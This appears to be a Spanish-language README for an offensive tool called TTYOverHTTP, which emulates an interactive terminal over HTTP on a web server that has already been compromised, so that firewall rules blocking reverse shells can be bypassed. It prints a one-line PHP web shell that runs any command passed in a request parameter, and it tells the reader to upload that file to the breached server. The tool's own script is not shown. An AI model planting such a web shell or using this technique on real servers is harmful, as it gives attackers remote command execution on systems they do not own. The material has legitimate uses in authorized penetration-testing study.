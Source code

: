 # TTYOverHTTP

En ocasiones cuando comprometemos un servidor web, hay reglas configuradas (**Ej: iptables**) que nos impiden obtener una Reverse Shell vía Netcat, Python, u otra utilidad.

Con esta herramienta, evitamos tener que hacer uso de una reverse shell para obtener una TTY posteriormente completamente interactiva. A través de archivos 'mkfifo', jugamos para simular una TTY interactiva sobre HTTP, logrando manejarnos sobre el sistema cómodamente sin ningún problema.

Lo único que necesitamos, es subir al servidor comprometido una estructura PHP como la siguiente para ejecutar comandos:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Una vez subido, simplemente ejecutamos el script (Es necesario cambiar la ruta en el script donde se sitúa nuestro script PHP alojado en el servidor vulnerado).

Tras su ejecución, se muestra un ejemplo de su utilidad:

![OSCP Image](https://funkyimg.com/i/2VKJr.png)

